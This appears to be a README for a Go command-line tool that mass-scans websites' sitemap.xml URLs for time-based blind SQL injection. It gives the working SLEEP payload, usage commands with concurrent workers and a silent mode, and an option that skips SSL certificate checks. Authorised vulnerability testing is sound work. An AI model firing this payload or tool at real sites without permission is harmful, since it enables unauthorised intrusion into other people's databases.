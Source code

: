# SQLi sitemap.xml Scanner

This Go tool automates the detection of potential SQL Injection vulnerabilities in sitemap.xml using **time-based blind SQL injection (SLEEP function)**. It works by:

- Sending an **initial request** to measure the normal response time.
- Sending a **crafted SQL payload** to test for execution delays.
- Logging only the vulnerable URLs where execution delay is detected.
- Supporting **concurrent execution** for efficiency.
- Offering a **silent mode** to display only successful cases.

## Features
- **Skips slow URLs**: If the initial request takes more than **3 seconds**, it's skipped.
- **SQL Injection Payload**: `?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#`
- **Silent Mode (`--silent`)**: Only logs URLs where the payload execution time exceeds **8 seconds**.
- **Concurrent Execution (`-w`)**: Uses multiple workers to speed up the scanning process.
- **Bypasses SSL Certificate Verification**: Useful for testing misconfigured HTTPS.

## Installation

### Clone the repository
```sh
git clone https://github.com/yourusername/sqli-xml.git
cd sqli-xml
```

### Install dependencies
go build sqli-xml.go

## Usage
### Basic Usage
```sh
go run sqli-xml.go -l urls.txt -o output.txt
```
or
```
sqli-xml -l urls.txt -o output.txt

### Silent Mode (Only Show Vulnerable URLs)
```sh
go run sqli-xml.go -l urls.txt -o output.txt --silent
```

### Adjust Worker Count (Default: 12)
```sh
go run sqli-xml.go -l urls.txt -o output.txt -w 20
```

## Output Example
### Standard Mode
```
https://example.com/sitemap.xml [1.245 sec] -> https://example.com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)# [9.127 sec]
```

### Silent Mode (`--silent`)
```
https://example.com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#
```

## Notes
- urls.txt must contain like : https://example.com , don't add sitemap.xml , it will add it automatically




